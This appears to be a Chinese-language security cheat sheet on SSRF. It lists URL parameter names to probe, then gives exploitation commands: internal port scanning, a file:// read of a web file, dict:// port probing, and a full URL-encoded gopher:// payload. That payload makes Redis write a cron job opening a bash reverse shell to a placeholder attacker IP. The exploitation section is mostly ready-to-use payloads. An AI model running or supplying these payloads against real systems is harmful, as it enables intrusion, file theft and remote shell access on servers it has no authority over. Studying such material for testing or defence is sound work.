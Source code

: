 



## SSRF漏洞挖掘

1. 从web功能上寻找：前面常见的位置

2. 从url关键字中寻找：

   ```bash
   share
   wap
   url
   link
   src
   source
   target
   u
   3g
   display
   sourceURL
   imageURL
   domain
   
   ```

   





## SSRF漏洞利用

### 利用方式

1.让服务端去访问相应的网址，端口扫描：` http://www.xxx.com/ssrf.php?u1=http://www.yy.com:3306`

2.让服务端去访问自己所处内网的一些指纹文件来判断是否存在相应的cms

3.可以使用**file、dict、gopher[11]、ftp**协议进行各种漏洞利用

```bash
# 使用file协议读取文件
http://www.xxx.com/ssrf.php?u1=file:///var/www/html/index.php
 
#利用dict协议查看端口
curl -v 'http://xxx.com/ssrf.php?url=dict://127.0.0.1:22'

# 利用gopher协议攻击redis反弹shell
curl -v
"http://xxx.com/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyourip%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a"

```
